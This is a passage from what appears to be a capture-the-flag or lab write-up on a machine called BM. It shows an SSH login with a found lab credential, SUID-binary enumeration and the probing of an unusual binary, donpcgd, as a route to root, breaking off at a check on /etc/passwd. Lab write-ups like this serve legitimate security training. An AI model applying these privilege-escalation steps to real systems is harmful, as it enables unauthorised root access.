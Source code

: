 ## TCP/1974 (SSH)
1. SSH w/ eric:triscuit*
	![](Pasted%20image%2020220223221419.png)
	
	

# Privilege Escalation

## Root - Via SUID Binary
1. Enumerate SUID binaries
	``` 
	eric@BM:/tmp$ find / -perm -4000 2>/dev/null 
	/usr/local/share/sgml/donpcgd
	/usr/bin/sudo
	/usr/bin/pkexec
	/usr/bin/passwd
	/usr/bin/newgidmap
	/usr/bin/chsh
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/newgrp
	/usr/bin/at
	/usr/bin/chfn
	/usr/bin/ubuntu-core-launcher
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/bin/mount
	/bin/su
	/bin/umount
	/bin/fusermount
	/bin/ping6
	/bin/ping
	/bin/ntfs-3g
	eric@BM:/tmp$ 
	```
	- `/usr/local/share/sgml/donpcgd`, is an unknown binary
2. Execute `/usr/local/share/sgml/donpcgd` to see what it does
	``` 
	eric@BM:/tmp$ /usr/local/share/sgml/donpcgd
	Usage: /usr/local/share/sgml/donpcgd path1 path2
	eric@BM:/tmp$ 
	```
	- Able to specify 2 paths
3. `/usr/local/share/sgml/donpcgd` allows us to create a file that has the same permissions as `path1` anywhere
	- `path1`: file created will have the same permission as the specified file.
	- `path2`: path where you want the file to be created
	- The file created is empty
4. Test our theory
	``` 
	eric@BM:/tmp$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1717 Aug 20  2016 /etc/passwd # take note of the permission
